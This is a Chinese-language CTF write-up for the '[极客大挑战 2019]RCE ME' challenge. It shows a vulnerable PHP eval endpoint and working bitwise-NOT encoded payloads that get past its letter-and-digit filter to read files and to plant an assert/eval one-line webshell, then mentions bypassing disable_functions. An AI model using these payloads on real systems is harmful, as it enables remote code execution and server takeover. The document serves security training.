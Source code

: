 # \[极客大挑战 2019]RCE ME

\[极客大挑战 2019]RCE ME

## 考点

* 无字母数字RCE
* PHP7参数解析特性
* 取反bypass代码执行

## wp

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
  $code=$_GET['code'];
  if(strlen($code)>40){
    die("This is too Long.");
  }
  if(preg_match("/[A-Za-z0-9]+/",$code)){
    die("NO.");
  }
  @eval($code);
}else{
  highlight_file(__FILE__);
}
```

`eval`的字符串不能出现字母和数字，并且长度不超过40

可以使用取反进行绕过对字符的限制

```
phpinfo() => (~%8F%97%8F%96%91%99%90)(); 

print_r(scandir('./')) => (~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(("./")));

readfile("/flag") => (~%8D%9A%9E%9B%99%96%93%9A)((~%D0%8D%9A%9E%9B%99%93%9E%98));
```

`phpinfo()`有disable\_functions，考虑使用一句话

```
assert('eval($_POST[1])') => (~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6);
```

蚁剑连接

![](<../.gitbook/assets/image (14).png>)

再绕过disable\_functions

![](<../.gitbook/assets/image (15).png>)

![](<../.gitbook/assets/image (9).png>)

## 小结

1. [深入浅出LD\_PRELOAD & putenv()](https://www.anquanke.com/post/id/175403)
